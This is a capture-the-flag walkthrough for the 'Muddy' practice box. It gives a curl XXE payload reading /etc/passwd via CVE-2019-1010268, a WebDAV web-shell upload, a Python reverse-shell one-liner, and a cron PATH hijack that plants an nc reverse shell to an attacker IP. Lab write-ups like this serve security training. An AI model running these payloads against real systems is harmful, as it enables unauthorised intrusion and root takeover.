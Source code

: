 # Muddy | PG Practice

***
## We sit in the mud... and reach for the stars.
## Author: whitecr0wz
## Released on: Aug 31, 2021
## Walkthrough: Yes
***


Running our nmap scan we have

```
# Nmap 7.94SVN scan initiated Tue Feb 20 03:49:12 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.178.161
Warning: 192.168.178.161 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.178.161
Host is up (0.14s latency).
Not shown: 65360 closed tcp ports (conn-refused), 168 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
25/tcp   open  smtp       Exim smtpd
| smtp-commands: muddy Hello nmap.scanme.org [192.168.45.204], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://muddy.ugc/
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
808/tcp  open  tcpwrapped
908/tcp  open  tcpwrapped
8888/tcp open  http       WSGIServer 0.1 (Python 2.7.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Ladon Service Catalog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 03:51:26 2024 -- 1 IP address (1 host up) scanned in 134.99 seconds

```


Navigating to the IP address we are been referred to `muddy.ug`


![](https://i.imgur.com/xccsjcV.png)



Go ahead and add that to your `/etc/hosts` file, then navigate back to the web page, in which runs on wordpress as we can see below


![](https://i.imgur.com/JmfToMp.png)



We can then use the `wpscan` tool to enumerate further


![](https://i.imgur.com/A4uBlnJ.png)



I tried enumerating plugins and themes but was only seeing stuff like **IDOR** and and **unauthenticated function injection** attacks which were just rabbit holes at the end of the day, Navigating to the other HTTP endpoint on http://muddy.ugc:8888/ which was running a **Ladon Service Catalog**, we have this

![](https://i.imgur.com/3nSmrZm.png)



Making more enumeration i found out that this is vulnerable to a **# XML External Entity Expansion** attack as `CVE-2019-1010268`, Using this [blog](https://vk9-sec.com/xxe-ladon-framework-for-python-xml-external-entity-expansion-cve-2019-1010268/),  we can exploit this by using this curl command to read the `/etc/passwd` file on the system

```bash
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11/checkout' | xmllint --format -
```


![](https://i.imgur.com/OPB2aey.png)



Now since we have found the XXE vulnerability let try searching for files on the system, first of all i started directory busting on the major page to see what we can identify using `dirsearch`


![](https://i.imgur.com/vZdAthb.png)


We were able to find a `/webdav` directory, After the long run i used the `/var/www/html/webdav/passwd.dav` in the article which just looks like http://muddy.ugc/webdav/ on the web surface 


![](https://i.imgur.com/Kj45a1g.png)



We now have the username called `administrant` and a password hash in MD5, let go ahead and crack the hash for the password

![](https://i.imgur.com/UNdm88r.png)



As we can see we have got the credentials of the `administrant` user called `sleepless`, Navigating to the `/webdav` directory, we are been asked for a password let try it out there and see what we have


![](https://i.imgur.com/zUQ5Sup.png)



As we can see we still have the same `passwd.dav` file, but googling for **webdav exploits**, i found something interesting we can upload a file with the tool `davtest` and then move it to another extension, some kind of file upload bypass


![](https://i.imgur.com/a1ZTWc4.png)


Let go ahead and save our web shell into a `.txt` file and then send it to the target server, then move it to a `.php` Extension


![](https://i.imgur.com/7fCka5W.png)



After several trials saw that i can't specify files locally, so let use `cadaver`


```bash
❯ cadaver http://muddy.ugc/webdav/
Authentication required for Restricted Content on server `muddy.ugc':
Username: **
Password: **

put ./shell.txt
move ./shell.txt ./shell.php
```



![](https://i.imgur.com/xjwyTwi.png)


Now let go ahead and check this out  on the web page, in which we do have it there, your truly :}




![](https://i.imgur.com/cZ8FfXF.png)




Let go ahead and get a reverse shell, Here is the payload i used 


```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.212",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



![](https://i.imgur.com/ptDMBxk.png)



Checking cron jobs we can see that we have a command running by the root user at every minute


```
cat /etc/crontab
```


![](https://i.imgur.com/yZVwR1e.png)

> As seen above the command runs `netstat -tlpn` and sends the output to the `/root/status` location, does this same thing for `apache2` and `mysql`



First things first, let check if we have write access to any of the PATH location in the `/etc/crontab` file, in which as we can see we have all right as user `www-data`



![](https://i.imgur.com/0iD1unP.png)



We can create a replication of the `netstat` application as a reverse shell and let the cron job running as user `root` execute it for us


```bash
# save this into a file called netstat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER-IP> 4444 >/tmp/f

# grant the file all permissions
chmod 777 netstat
```


![](https://i.imgur.com/KkLHbVj.png)



Now go ahead and start up your listener with netcat and after waiting for a minute you should have your reverse shell as user `root`


```
nc -lvnp 4444
```


![](https://i.imgur.com/t9aFHRI.png)


You can find the `local.txt` flag by using the find command


```bash
find / -type f -name local.txt 2>/dev/null
```



GG
